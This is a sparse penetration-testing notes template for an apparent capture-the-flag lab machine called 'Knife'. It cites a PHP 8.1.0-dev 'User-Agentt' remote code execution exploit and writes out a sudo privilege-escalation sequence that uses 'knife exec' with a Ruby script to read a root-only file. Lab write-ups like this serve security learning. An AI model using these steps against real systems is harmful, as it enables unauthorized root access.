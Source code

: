 # Summary
# Location
- IP Address: 10.129.30.92
## System Information
- OS: Ubuntu
- Hostname: Knife
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
- OS: 
- OS: 
## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
## Notes
-
---
# Service Enumeration
## Port Scan (Nmap)
### All Ports
```txt
```

### Services
```txt
Apache/2.4.41
```

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th
```txt
Priviledge Escape
user has sudo priviledge in /usr/bin/knife
by google, found that "knife exec []"
create ruby file 
echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/scrp.rb
sudo knife exec ~/scrp.rb
```

# Exploitation
## Exploit 1
- Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
- CVE: 
- EBD-ID: 49933 
- Link: https://www.exploit-db.com/exploits/49933

## Exploit 2
- Title:
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
